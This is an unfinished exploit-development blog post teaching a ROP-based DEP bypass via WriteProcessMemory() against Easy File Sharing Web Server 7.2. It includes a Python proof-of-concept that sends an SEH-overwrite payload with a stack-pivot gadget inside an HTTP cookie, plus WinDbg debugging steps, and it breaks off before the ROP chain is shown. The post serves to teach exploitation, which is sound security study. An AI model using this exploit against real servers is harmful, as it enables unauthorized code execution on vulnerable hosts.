 ```yaml
---
title:  "(UNDER CONSTRUCTION) Exploit Development: Playing ROP'em COP'em Robots with WriteProcessMemory()"
date:   2020-07-11
tags: [posts]
excerpt: "Gaining code execution with WriteProcessMemory() via ROP and outlining the occasional need for Call-Oriented Programming."
---
```

Introduction
---
The other day on Twitter, I received a very kind and flattering [message](https://twitter.com/duff22b/status/1282014844338597888?s=20) about a previous [post](https://connormcgarr.github.io/ROP/) of mine on the topic of ROP. Thinking about this post, I recall utilizing `VirtualProtect()` and disabling ASLR system wide to bypass DEP. I also used an outdated debugger, Immunity Debugger at the time, and I wanted to expand on my previous work, with a little bit of a less documented ROP technique and WinDbg.

Why is ROP Important?
---
ROP/COP and other code reuse apparatuses are very important mitigation bypass techniques, due to their versatility. Binary exploit mitigations have come a long way since DEP. Notably, mitigations such as CFG, upcoming XFG, ACG, etc. have posed an increased threat to exploit writers as time has gone on. ROP _still_ has been the “swiss army knife” to keep binary exploits alive. ROP can result in arbitrary write and arbitrary read primitives- as we will see in the upcoming post. Additionally, data only attacks with the implementation of ACG have become crucial. It is also possible, although expensive from a technical perspective, to write payloads fully in ROP.

What This Blog Assumes and What This Blog _ISN'T_
---
If you are interested in a remote bypass of ASLR and a 64-bit version of bypassing DEP, I suggest reading a [previous blog](https://connormcgarr.github.io/eko2019-exe) of mine on this topic (although, undoubtedly, there are better blogs on this subject).

This blog will not address ASLR or 64-bit exploitation- and will be utilizing non-ASLR compiled modules, as well as the x86 [stdcall](https://docs.microsoft.com/en-us/cpp/cpp/stdcall?view=vs-2019) calling convention (technically an "ASLR bypass", but in my opinion only information leak = a _true_ ASLR bypass).

Why are these topics not being addressed? This post aims to focus on a different, less documented approach to executing code with ROP. As such, I find it useful to use the most basic, straightforward example to hopefully help the reader fully understand a concept. I am _fully_ aware that it is 2020 and I am well aware mitigations such as CFG are more common. However, the last step in exploitation, no matter HOW many mitigations there are, is bypassing DEP (in user mode or kernel mode). This post aims to address the latter portion of the last sentiment- and expects the reader already has an ASLR bypass primitive and a way to pivot to the stack.

Expediting The Process
---

The application we will be going after is `Easy File Sharing Web Server 7.2`, which has a memory corruption vulnerability as a result of an HTTP request.

The offset to SEH is `2563` bytes. Instead of using a `pop <reg>` `pop <reg>` `ret` sequence, as is normally done on a 32-bit SEH exploit, an `add esp, <bytes>` instruction is used. This will take the stack, where it is currently not controlled by us, and change the address to an address on the stack that we control- and then return into it.

```python
import sys
import os
import socket
import struct

# 4063 byte SEH offset
# Stack pivot lands at padding buffer to SEH at offset 2563
crash = "\x90" * 2563

# Stack pivot lands here
# Beginning ROP chain
crash += struct.pack('<L', 0x90909090)

# 4063 total offset to SEH
crash += "\x41" * (4063-len(crash))

# SEH only- no nSEH because of DEP
# Stack pivot to return to buffer
crash += struct.pack('<L', 0x10022869)		# add esp, 0x1004 ; ret: ImageLoad.dll (non-ASLR enabled module)

# 5000 total bytes for crash
crash += "\x41" * (5000-len(crash))

# Replicating HTTP request to interact with the server
# UserID contains the vulnerability
http_request = "GET /changeuser.ghp HTTP/1.1\r\n"
http_request += "Host: 172.16.55.140\r\n"
http_request += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
http_request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
http_request += "Accept-Language: en-US,en;q=0.5\r\n"
http_request += "Accept-Encoding: gzip, deflate\r\n"
http_request += "Referer: http://172.16.55.140/\r\n"
http_request += "Cookie: SESSIONID=9349; UserID=" + crash + "; PassWD=;\r\n"
http_request += "Connection: Close\r\n"
http_request += "Upgrade-Insecure-Requests: 1\r\n"

print "[+] Sending exploit..."
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.197.135", 80))
s.send(http_request)
s.close()
```

Set a breakpoint on the stack pivot of `add esp, 0x1004 ; ret` with the WinDbg command `bp 0x10022869`. After sending the exploit PoC- we will need to view the contents of the exception handler with the WinDbg command `!exchain`.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM0.png" alt="">

As a breakpoint has already been set on the address inside of SEH, all that is needed to pass the exception is resuming execution with the `g` command in WinDbg. The breakpoint is hit, and we will step through the instruction of `add esp, 0x1004` to take control of the stack.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM1.png" alt="">

As a point of contention, we have about 980 bytes to work with (as we will see, these 980 bytes will only be used for our first stage ROP/COP payload). Our payload will be stored in another location within the process memory.

The Call to `WriteProcessMemory()`
---

What is the goal of this method of bypassing DEP? The goal here is to not change permissions of memory to make it executable- but to instead take our shellcode to already executable memory.

Let's take a look at the call to `WriteProcessMemory()` firslty, to help make sense of all of this (per [Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory))

```c++
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

